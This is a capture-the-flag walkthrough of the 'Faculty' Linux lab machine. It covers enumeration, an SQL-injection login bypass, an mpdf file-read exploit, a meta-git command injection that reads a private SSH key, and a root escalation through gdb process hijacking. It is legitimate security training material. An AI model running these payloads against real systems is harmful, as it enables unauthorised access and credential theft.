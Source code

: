 # Faculty
### Linux Box

##### Start with an `nmap` scan that shows open ports 22 and 80. Heading over to port 80 we find a login page.

![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FtpBc3ngEj5mgbNZW914Q%2Fimage.png?alt=media&token=7fba467f-3ef9-4a6f-a159-03292b099278 "nmap results")

##### The login page was vulnerable to SQLi, but I couldn't extract any useful information. Next, I tried ffuf to enumerate directories and subdomains.
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST: FUZZ.faculty.htb" -u http://faculty.htb -mc 200
```
##### No subdomains but I found the `/admin/login` page. I was able to login with `' OR 1=1#` as the username.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FCg6itFHlBhhiOALJZP5r%2Fimage.png?alt=media&token=30dde0de-b2e9-4fe5-b80f-27395a94e1c5 "admin login")

##### I downloaded a pdf I found on the admin panel. I found the app was using mpdf. Using searchsploit, I found multiple vulnerabilites
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FprphWunbnrSB9vY4M32D%2Fimage.png?alt=media&token=5b78ff0c-0b6f-46b8-a589-bf2323480d49 "searchsploit results")

##### Using the exploit, I was able to grab a few files from the server. I found credentials for the user `gbyolo` in the `db_connect.php` file.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FvWeeHIjZNECM0EfQsnv0%2Fimage.png?alt=media&token=da855f14-a017-4844-bcf0-9be0d54d9222 "db_connect.php")

##### ssh into `gbyolo` using the found credentials
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2F33r9Xst9PFRyqnpjHyjG%2Fimage.png?alt=media&token=8be8d48b-6f5d-4748-9af7-8dcc7a9c08d0 "foothold")

##### In `/var/mail` I found a file titled `gbyolo`. It says that `gbyolo` can manage git repositories belonging to the faculty group. I also run `sudo -l`, with the found password, to see what sudo permissions gbyolo has.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2F33r9Xst9PFRyqnpjHyjG%2Fimage.png?alt=media&token=8be8d48b-6f5d-4748-9af7-8dcc7a9c08d0 "gbyolo file")

[This hackerone report was helpfull for the next step](https://hackerone.com/reports/728040)

##### Using the same exploit, run `sudo -u developer meta-git clone 'sss | cat ~/.ssh/id_rsa'`
[alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FsKtY25lSommhunlw5kUf%2Fimage.png?alt=media&token=a33d4792-104b-44c8-8630-6ca691890b69 "id_rsa")

##### ssh into the developer account after giving `id_rsa` proper permissions. `chmod 600 id_rsa`
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FsUcm3E1PKy2j5hmiQXGB%2Fimage.png?alt=media&token=1edbae46-cb9c-4cc2-ae96-fb8cee137222 "kick some shell")

##### Run linpeas on the target
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2FUb7VQxgMw9z7rt8zbwr1%2Fimage.png?alt=media&token=3c5cfccc-1b1a-4ba6-b069-4362f6be46e4 "linpeas output")

##### Running `ps aux | grep root | grep python3` can get you the processes needed as well.

##### Use gdb to hijack the process

```gbd
(gbd) call (void)system("chmod u+s /bin/bash")
(gbd) quit
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fy8s2zVHMWg1AbBm8ZLN3%2Fuploads%2F048527wX5mSLyoBItEyP%2Fimage.png?alt=media&token=42836c41-2e64-4fe5-ae62-479f06cab3ee "gbd")




